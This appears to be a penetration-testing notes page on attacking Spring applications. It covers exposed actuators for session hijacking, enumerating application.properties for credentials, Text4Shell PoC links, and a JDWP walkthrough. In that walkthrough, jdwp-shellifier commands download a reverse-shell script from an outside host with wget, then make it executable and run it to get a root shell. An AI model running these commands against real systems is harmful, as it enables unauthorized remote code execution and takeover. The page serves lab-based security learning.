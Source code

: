 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Spring

## 101

<table><thead><tr><th width="146" align="right">Technology</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://spring.io/projects/spring-framework">Spring</a></td><td>A framework for building Java applications.</td></tr><tr><td align="right"><a href="https://spring.io/projects/spring-boot">Spring Boot</a></td><td>A Spring extension that simplifies the configuration of Spring apps by providing defaults and conventions to minimize the boilerplate code required.</td></tr></tbody></table>

## Recon

The default error page (`/error`) for Spring applications:

<figure><img src="../../../.gitbook/assets/web_framework_spring_whitelabel.png" alt=""><figcaption></figcaption></figure>

## Attacks

### Actuators

Spring Boot's [actuators](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in monitoring and debugging features and its endpoints should not be public facing. For instance, [`/actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) lists active HTTP Spring session&#x73;_._ For an example of leveraging an actuator for **session hijacking** see [Cozyhosting](../../../boxes/easy/cozyhosting.md#leveraging-actuator).

### Config Files

[Spring applications](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) will load properties from the [`application.properties`](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) file which is typically under the webroot (`/`) or the `config` subdirectory. This file can contain sensitive information, such as credentials and database information. We can use Burp Intruder to enumerate this file.

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course, more specifically, the Asio lab._

<figure><img src="../../../.gitbook/assets/offsec_asio_applicationProperties_1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/offsec_asio_applicationProperties_2.png" alt=""><figcaption></figcaption></figure>

### Apache Commons

**Apache Commons Text** is a part of the larger Apache Commons project, which provides reusable Java components. Specifically, Commons Text offers utility classes for advanced string manipulation. While not part of the Spring Framework itself, it is commonly included in Spring-based applications due to its useful text processing features.

Apache Commons Text from `1.5` up to `1.9` are vulnerable to **Text4Shell** ([CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)). There is a [PoC](https://github.com/chaudharyarjun/text4shell-exploit) available written for `POST` requests and using the `data` parameter. A [modified version of the PoC](https://github.com/CSpanias/text4shell-exploit) is also available allowing for more flexibility.

### JDWP

**Java Debug Wire Protocol (JDWP)** is a protocol used by the Java Platform Debugger Architecture (JPDA) to enable communication between a debugger and a Java application. It is typically used during development to inspect and control Java programs. While JDWP is not specific to Spring, it can be exposed in Spring-based applications—especially in misconfigured environments or containerized deployments. If left open in production (commonly on port `5005`), JDWP can be exploited by attackers to execute arbitrary code, inspect memory, or gain full control over the JVM.

The identification process of a JDWP process goes like this:

1. We’re in a **Java web app**:

```bash
# TCP port scan reveals the use of the Spring framework
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```

2. We find a **local open port** with no response from manual probbing:

```bash
# Unknown local port
$ netstat -aln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
```

3. There’s a **Java process running** as `root`:

```bash
$ lsof -i :8000
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java      851 root   15u  IPv4 151467      0t0  TCP localhost:8000 (LISTEN)
```

4. We suspect this might be **debug-related**:

{% code overflow="wrap" %}
```bash
$ ps aux | grep 8000
root         851  0.0  3.9 2537196 79896 ?       Ssl  06:06   0:06 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

The above pattern should trigger the “_Maybe it’s JDWP_” instinct.&#x20;

There is a [PoC](https://github.com/IOActive/jdwp-shellifier) available but we might have to dig a bit more in order to successfully use it. This PoC waits for an event to be triggered in order to achieve RCE; we will have to enumerate the port from which we can do that.

```bash
$ ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
...
# This is our port forward
tcp   LISTEN 0      1  127.0.0.1:8000      0.0.0.0:*    users:(("java",pid=851,fd=15))
# This is unknown, thus, potentially the JDWP port!
tcp   LISTEN 0      50         *:5000            *:*    users:(("java",pid=851,fd=10))
# This is the web application
tcp   LISTEN 0      100        *:8080            *:*    users:(("java",pid=834,fd=11))
```

We can then check what the Java process is doing:

{% code overflow="wrap" %}
```bash
$ ps aux | grep java
dev          834  0.7 27.4 2613260 555380 ?      Ssl  06:06   3:53 java -jar /opt/dev/api.jar
root         851  0.0  3.8 2537196 77344 ?       Ssl  06:06   0:07 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

Enumerating the outputted paths confirms that the port `5000` is what we are searching for:

```bash
$ ls -la /opt/dev
...
-rw-r--r-- 1 root root 17383754 Nov  7  2022 api.jar

$ cat App.java | grep 5000
            ServerSocket echod = new ServerSocket(5000);
```

Now we can use the PoC and gain a `root` shell on the target:

{% code overflow="wrap" %}
```bash
# Upload a reverse shell script via the JDWP vulnerability
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[+] Waiting for an event on 'java.net.ServerSocket.accept'
```
{% endcode %}

```bash
$ curl http://berlin:5000
curl: (1) Received HTTP/0.9 when not allowed
```

{% code overflow="wrap" %}
```bash
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[!] Command successfully executed
```
{% endcode %}

Repeat the same process for assigning the right permissions to the file and then execute it:

```bash
# Assign executable permissions to the uploaded file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'chmod 700 /tmp/revshell.sh'
# Execute the file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'bash /tmp/revshell.sh'
```
